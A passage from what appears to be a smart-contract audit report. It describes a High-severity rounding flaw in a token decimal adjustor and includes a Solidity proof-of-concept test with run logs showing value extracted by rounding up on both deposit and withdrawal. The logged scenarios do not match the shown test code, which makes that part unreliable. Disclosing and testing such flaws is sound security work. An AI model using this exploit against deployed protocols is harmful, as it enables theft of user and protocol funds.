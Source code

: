 As shown in the table, certain rounding combinations can lead to nearly 100% profit extraction.

The severity is classified as High because:
- It directly affects token calculations and value transfers
- It can lead to direct fund loss for the protocol
- It affects all tokens with non-zero adjustment factors
- It can be exploited by any user of the protocol
- It enables systematic value extraction with minimal risk

## Proof of Concept
I've created a test that demonstrates this vulnerability in action. The test shows how an attacker can extract significant value by manipulating rounding directions.

```solidity
function testPrecisionLossExploit() public {
    // Initial setup - we'll use a token with 24 decimals
    // For tokens with more than 18 decimals, the adjustment factor is negative
    // This means we divide when converting to nominal and multiply when converting back

    // Verify the adjustment factor for token24 (should be -10^6)
    adj.cacheAdjustment(token24);
    assertEq(adj.adjustments(token24), -1 * 10**6, "Adjustment factor should be -10^6");

    // Create a token amount that will cause rounding issues
    // For a token with 24 decimals, we need a value that's not divisible by 10^6
    uint256 deposit = 1_000_001;

    // Demonstrate the exploit
    // Step 1: Deposit with round up (gain more nominal value)
    uint256 attackDeposit = 1_000_001;
    uint256 attackNominal = adj.toNominal(token24, attackDeposit, true); // Round up

    // Step 2: Withdraw with round up (gain more real value)
    uint256 attackWithdrawn = adj.toReal(token24, attackNominal, true); // Round up

    // Verify that we can extract value
    assertGt(attackWithdrawn, attackDeposit, "Should be able to extract value");

    // Calculate profit percentage
    uint256 profit = attackWithdrawn - attackDeposit;
    uint256 profitBps = (profit * 10000) / attackDeposit;
}
```

When running this test with a token that has 24 decimals (adjustment factor -10^6), we get the following results:

```bash
Compiler run successful!

Ran 1 test for test/integrations/adjustor/PrecisionLossExploit.t.sol:PrecisionLossExploitTest
[PASS] testPrecisionLossExploit() (gas: 117731)
Logs:
  === Precision Loss Exploit Demonstration ===
  Token with 24 decimals, adjustment factor: -10^6

Test with different rounding strategies:
  Initial deposit amount: 1000001

Scenario 1: Round down on deposit, round down on withdrawal
  Nominal value: 1
  Withdrawn amount: 1000000
  Difference: -1

Scenario 2: Round down on deposit, round up on withdrawal
```